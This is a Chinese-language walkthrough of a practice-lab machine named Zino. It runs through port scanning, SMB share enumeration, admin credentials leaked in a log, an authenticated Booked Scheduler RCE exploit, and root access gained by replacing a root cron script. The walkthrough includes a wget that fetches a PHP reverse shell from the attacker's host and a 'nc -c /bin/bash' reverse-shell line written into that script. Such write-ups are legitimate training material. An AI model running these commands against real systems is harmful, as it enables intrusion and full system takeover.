

# 端口枚举

```bash
[~/Desktop/pg/zino]
└─$ sudo nmap -p- -Pn 192.168.151.64     
[sudo] password for aaron: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-14 08:53 +0330
Stats: 0:01:03 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 12.16% done; ETC: 09:02 (0:07:42 remaining)
Nmap scan report for 192.168.151.64
Host is up (0.25s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8003/tcp open  mcreport

[~/Desktop/pg/zino]
└─$ sudo nmap -p21,22,139,45,3306,8003 -Pn -A 192.168.151.64           
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-14 09:04 +0330
Nmap scan report for 192.168.151.64
Host is up (0.24s latency).

PORT     STATE    SERVICE     VERSION
21/tcp   open     ftp         vsftpd 3.0.3
22/tcp   open     ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b2:66:75:50:1b:18:f5:e9:9f:db:2c:d4:e3:95:7a:44 (RSA)
|   256 91:2d:26:f1:ba:af:d1:8b:69:8f:81:4a:32:af:9c:77 (ECDSA)
|_  256 ec:6f:df:8b:ce:19:13:8a:52:57:3e:72:a3:14:6f:40 (ED25519)
45/tcp   filtered mpm
139/tcp  open     netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open     mysql?
| fingerprint-strings: 
|   NULL: 
|_    Host '192.168.45.194' is not allowed to connect to this MariaDB server
8003/tcp open     http        Apache httpd 2.4.38
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-02-05 21:02  booked/
|_
|_http-server-header: Apache/2.4.38 (Debian)


```

# SMB

使用`smbclient`去查看是否有共享的文件夹

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/zino]
└─$ smbclient -L //192.168.151.64/       
Password for [WORKGROUP\aaron]:

        Sharename       Type      Comment
        ---------       ----      -------
        zino            Disk      Logs
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            
```

发现了`zino`是一个共享文件夹, 所以能够通过`smbclient`去连接获取这个共享文件夹里面的文件.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/zino]
└─$ smbclient  \\\\192.168.151.64\\zino
Password for [WORKGROUP\aaron]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul  9 23:41:49 2020
  ..                                  D        0  Tue Apr 28 18:08:53 2020
  .bash_history                       H        0  Tue Apr 28 20:05:28 2020
  error.log                           N      265  Tue Apr 28 18:37:32 2020
  .bash_logout                        H      220  Tue Apr 28 18:08:53 2020
  local.txt                           N       33  Mon Aug 14 08:52:29 2023
  .bashrc                             H     3526  Tue Apr 28 18:08:53 2020
  .gnupg                             DH        0  Tue Apr 28 18:47:02 2020
  .profile                            H      807  Tue Apr 28 18:08:53 2020
  misc.log                            N      424  Tue Apr 28 18:38:15 2020
  auth.log                            N      368  Tue Apr 28 18:37:54 2020
  access.log                          N     5464  Tue Apr 28 18:37:09 2020
  ftp                                 D        0  Tue Apr 28 18:42:56 2020

                7158264 blocks of size 1024. 4702264 blocks available
smb: \> get auth.log
getting file \auth.log of size 368 as auth.log (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
smb: \> get misc.log
getting file \misc.log of size 424 as misc.log (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
smb: \> get local.txt
getting file \local.txt of size 33 as local.txt (0.0 KiloBytes/sec) (average 0.3 KiloBytes/sec)
```

下载几个`.log`文件下来查看一下里面的内容, 在`misc.log`里面发现了管理员的账号和密码.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/zino]
└─$ cat auth.log                          
Apr 28 08:16:54 zino groupadd[1044]: new group: name=peter, GID=1001
Apr 28 08:16:54 zino useradd[1048]: new user: name=peter, UID=1001, GID=1001, home=/home/peter, shell=/bin/bash
Apr 28 08:17:01 zino passwd[1056]: pam_unix(passwd:chauthtok): password changed for peter
Apr 28 08:17:01 zino CRON[1058]: pam_unix(cron:session): session opened for user root by (uid=0)
                                                                                                                                                                                                                                 
┌──(aaron㉿aacai)-[~/Desktop/pg/zino]
└─$ cat misc.log            
Apr 28 08:39:01 zino systemd[1]: Starting Clean php session files...
Apr 28 08:39:01 zino CRON[2791]: (CRON) info (No MTA installed, discarding output)
Apr 28 08:39:01 zino systemd[1]: phpsessionclean.service: Succeeded.
Apr 28 08:39:01 zino systemd[1]: Started Clean php session files.
Apr 28 08:39:01 zino systemd[1]: Set application username "admin"
Apr 28 08:39:01 zino systemd[1]: Set application password "adminadmin"

```

并且在 `auth.log` 发现了用户peter的密码为`chauthtok`

尝试使用peter的密码去登录ssh, 但是发现这个密码并不起作用.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/zino]
└─$ ssh peter@192.168.151.64             
The authenticity of host '192.168.151.64 (192.168.151.64)' can't be established.
ED25519 key fingerprint is SHA256:WSNy24QYHepwi1q+CCZFt8/GTaVsrE60rmRaacEdSKE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.151.64' (ED25519) to the list of known hosts.
peter@192.168.151.64's password: 
Permission denied, please try again.
peter@192.168.151.64's password: 
Permission denied, please try again.
peter@192.168.151.64's password: 

```

现在回到8003端口, 这里有一个登录的接口, 使用`admin:adminadmin`去登录


现在通过`searchsploit`查看有关于`booked schedule`的漏洞

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/zino]
└─$ searchsploit booked      
 Exploit Title        |  Path
Booked Scheduler 2.7.5 - Remote Command Execution (Metasploit)          | php/webapps/46486.rb
Booked Scheduler 2.7.5 - Remote Command Execution (RCE) (Authenticated)     | php/webapps/50594.py
Booked Scheduler 2.7.7 - Authenticated Directory Traversal      | php/webapps/48428.txt
┌──(aaron㉿aacai)-[~/Desktop/pg/zino]
└─$ searchsploit -m 50594
  Exploit: Booked Scheduler 2.7.5 - Remote Command Execution (RCE) (Authenticated)
      URL: https://www.exploit-db.com/exploits/50594
     Path: /usr/share/exploitdb/exploits/php/webapps/50594.py
    Codes: CVE-2019-9581
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/aaron/Desktop/pg/zino/50594.py
```

尝试使用这个RCE, 因为我们已经有密码并且认证过了, 所以直接在脚本后面加上用户名和密码即可


现在可以看到RCE传回来的系统命令回显,接下来上传`php-reverse-shell.php`到服务器上来获取可交互的反弹shell.

```bash
[~/Desktop/pg/zino]
└─$ python3 50594.py "http://192.168.151.64:8003" admin adminadmin
[+] Logged in successfully.
[+] Uploaded shell successfully
[+] http://192.168.151.64:8003/booked/Web/custom-favicon.php?cmd=

$ wget 192.168.45.194:21/php-reverse-shell.php

```

最后得到shell


# 提权

## 信息收集

```bash
═══════════════════════════════╣ Basic information ╠═══════════════════════════════                                             
OS: Linux version 4.19.0-8-amd64 (debian-kernel@lists.debian.org) (gcc version 8.3.0 (Debian 8.3.0-6)) #1 SMP Debian 4.19.98-1 (2020-01-26)
User & Groups: uid=33(www-data) gid=33(www-data) groups=33(www-data)
Hostname: zino
Writable folder: /dev/shm
[+] /usr/bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /usr/bin/bash is available for network discovery, port scanning and port forwarding (linpeas can discover hosts, scan ports, and forward ports. Learn more with -h)                                                       
[+] /usr/bin/nc is available for network discovery & port scanning (linpeas can discover hosts and scan ports, learn more with -h)        

══════════════════════════════╣ System Information ╠══════════════════════════════ 
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                             
Linux version 4.19.0-8-amd64 (debian-kernel@lists.debian.org) (gcc version 8.3.0 (Debian 8.3.0-6)) #1 SMP Debian 4.19.98-1 (2020-01-26)
Distributor ID: Debian
Description:    Debian GNU/Linux 10 (buster)
Release:        10
Codename:       buster

╔══════════╣ Cron jobs
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/3 *   * * *   root    python /var/www/html/booked/cleanup.py


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                  
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -                              
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::445                  :::*                    LISTEN      -                   
tcp6       0      0 :::8003                 :::*                    LISTEN      -                   
tcp6       0      0 :::139                  :::*                    LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -   

╔══════════╣ Useful software
/usr/bin/base64                                                                                                
/usr/bin/nc
/usr/bin/nc.traditional
/usr/bin/netcat
/usr/bin/perl
/usr/bin/php
/usr/bin/ping
/usr/bin/python
/usr/bin/python2
/usr/bin/python2.7
/usr/bin/python3
/usr/bin/python3.7
/usr/bin/socat
/usr/bin/wget

```

找到一个计划任务, root账号会每三分钟运行一次`cleanup.py`, 所以替换这个python脚本是提权的思路.

```bash
www-data@zino:/var/www/html/booked$ cat cleanup.py
cat cleanup.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /var/www/html/booked/uploads/reservation/* ')
except:
        print 'ERROR...'
sys.exit(0)
www-data@zino:/var/www/html/booked$ 
```

替换脚本内容

```bash
www-data@zino:/var/www/html/booked$ mv cleanup.py cleanup.py.bk2
www-data@zino:/var/www/html/booked$ wget 192.168.45.194:8003/cleanup.py

cleanup.py          100%[===================>]     162  --.-KB/s    in 0s      

2023-08-14 02:38:45 (46.3 MB/s) - ‘cleanup.py’ saved [162/162]
www-data@zino:/var/www/html/booked$ cat cleanup.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('nc -c /bin/bash 192.168.45.194 21')
except:
        print 'ERROR...'
sys.exit(0)
www-data@zino:/var/www/html/booked$ 

```

然后等待获取root的shell



